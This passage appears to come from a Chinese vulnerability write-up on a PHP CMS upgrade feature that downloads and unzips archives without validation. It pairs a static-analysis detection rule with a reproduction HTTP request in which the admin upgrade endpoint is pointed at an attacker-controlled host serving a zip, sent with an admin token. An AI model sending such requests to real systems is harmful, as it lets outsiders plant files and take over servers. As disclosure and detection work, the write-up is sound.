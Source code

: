 ```
* & $params
CODE,
    exclude: <<<CODE
<self>?{opcode: call}
CODE
}-> as $high)
alert $high for {
    title: 'Unsafe File Unzip Without Validation',
    title_zh: '未经验证的高危文件解压',
    level: 'high'
}
$target(* #{
    include: <<<CODE
* & $params
CODE,
    exclude: <<<CODE
<self>?{opcode: call && <self><getCallee> & $filter}
CODE
}-> as $mid)
alert $mid for {
    title: 'Insecure File Type Detection',
    title_zh: '文件解压经过了某些函数，但未检查到过滤',
    level: 'mid'
}
$all - $high - $mid as $low
alert $low for{
    title: 'Potential File Storage Path Misconfiguration',
    title_zh: '潜在的文件存储路径配置问题',
    level: 'low'
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc0zsUyHdCzPNEEvAr3R3wreFsKGULEAnxNo42zwGJUQf9eM5jzscGA5IYzaqAEnZ0eA9XqkOn90g/640?wx_fmt=png&from=appmsg "")  
  
unzip是将输入的path进行一定的拼接，然后进行unzip。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc0zsUyHdCzPNEEvAr3R3wrkWZatjjKM4PowFw9LLDmnFTnahibWIAMYM05sYzbxvobHSjZgKBrkMA/640?wx_fmt=png&from=appmsg "")  
  
在这里找到一个  
unzip的反向，  
下载zip，下载完zip之后，会存到固定路径中，然后执行unzip即可。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc0zsUyHdCzPNEEvAr3R3wrdkIHytUibnZ0V3eYsuHibz56H64YOcQXSJ26HQqiaV6ribkztj8iahAN5Lg/640?wx_fmt=png&from=appmsg "")  
#### 漏洞复现：  
  
zip文件夹路径如图：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc0zsUyHdCzPNEEvAr3R3wr5iazOLQGJznYzR69Wajf9xUZlbZewl80RiaibqWVicDctHpxNHrpzKSliaw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc0zsUyHdCzPNEEvAr3R3wrHeZy0SSDOlSXMeAm1A3wx7sIPvBKgnoFbCu8P86ZQ4kJJmibylHvrzA/640?wx_fmt=png&from=appmsg "")  
```
GET /index.php/apiadmin/Upgrade/download?path=http://10.211.55.2:7788/upgrade.zip&timestamp=1 HTTP/1.1
Host: 10.211.55.11
Accept-Encoding: gzip, deflate
Cookie: Hm_lvt_d7fcc824c81abdf6e6d33ffc0e10c071=1736077733,1736168831,1736218733; PHPSID=68cd6da824f0d94132ca311bd76d1131; Hm_lvt_8dcaf664827c0e8ae52287ebb2411aed=1741364373; PHPSESSID=m5f2pm9giti1mno9u9de4dngms; qscms_access_export=1; qscms_access_delete=1; qscms_access_set_service=1
admintoken: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3NDUzODU1MjMsImV4cCI6MTc1MzE2MTUyMywiaW5mbyI6eyJpZCI6MSwicm9sZV9pZCI6MX19.POBct8pTWPlDbxkt3xIwajLpAB7O47NxD13A-RfCwB8
Referer: http://10.211.55.11/admin/
Accept-Language: zh-CN,zh;q=0.9
```